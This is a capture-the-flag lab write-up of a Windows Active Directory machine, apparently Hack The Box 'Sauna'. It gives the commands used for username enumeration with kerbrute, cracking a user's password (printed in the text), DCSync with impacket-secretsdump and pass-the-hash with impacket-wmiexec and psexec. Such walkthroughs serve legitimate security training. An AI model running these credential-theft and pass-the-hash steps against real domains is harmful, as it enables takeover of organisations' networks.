# Sauna

<details>
<details>
  <summary><strong>Summary</strong></summary>
Start by scanning the open ports. Find an http port and a website. Use feroxbuster to start enumerating the webpage. Poke around the webpage with some SQLi and XSS, but don't find anything. Find a "Meet The Team" page and get the users from there. Create a file with variations of the usernames and use `kerbrute` to find if any of them are valid. Find a valid username `fsmith`. Kerberoast fsmith and get his credentials. Crack the hash to get his password and get an initial foothold with a shell. Upload Sharphound and WinPEAS to the machine and run both. Find credentials for a svc_loanmanager in the WinPEAS dump and find that user in the sharphound dump. Discover that the user can perform a DCSync attack and get the hashes from the DC. Perform a pass-the-hash-attack and gain root access.
</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. WinPEAS and Bloodhound go together like white on rice
2. Never discount "Meet the Team" or "Leadership" pages
3. Always check the scripts in the impacket-examples
4. LDAPSearch is excellent for initial enumeration into the AD Domain
5. I like Vim scripting and need to get better at it 

</body>
</details>

## Enumeration

#### Scan the machine for open ports



#### Scan the open ports



Use feroxbuster on the IP Address. Find contact.html


Use `ldapsearch` to find the naming contexts for the website

```
ldapsearch -x -H 'ldap://10.129.35.136' -s base namingcontexts
```



### Find a 'Meet The Team' page

Use it to get the names of the users at the company. Create a file containing different variations of the usernames.




#### Now that the file of usernames has been created, use Kerbrute to enumerate usernames.



#### Kerberoast the FSmith user

Take the hash and run it through hashcat to get the password for FSmith : `Thestrokes23`


### SMBMAP

Use SMBMAP to see what shares fsmith has access to  
`smbmap -u fsmith -p 'Thestrokes23' -H 10.129.35.13`  


### Use crackmapexec to check all access vectors

Check for winrm, smb, rdp, ftp, ssh, and ldap access using crackmapexec  
`crackmapexec winrm 10.129.35.136 -u fsmith -p 'Thestrokes23'`



### Try to login using winrm

Get the flag on the fsmith user desktop


### Sharphound

Upload Sharphound to the target machine and run it  
`.\SharpHound.exe -c all`

Start bloodhound and upload the information to it. Mark Fsmith as owned and check for shortest paths.
Find PSRemote exploit in the mapping.


### WinPEaSS

Upload WinPEAS to the target machine and run it. Find a new user in the




Perform the DCSync attack and get the hashes from the DC server  
`impacket-secretsdump 'egotistical-bank.local/svc_loanmgr@10.129.167.181'`  


### Now use wmiexec or psexec to get an admin shell

```
impacket-wmiexec -hashes :<NTLM_HASH> Administrator@10.129.167.181

impacket-psexec EGOTISTICAL-BANK.local/administrator@10.129.167.181 -hashes <LMA_HASH>:<NTLM_HASH>
```
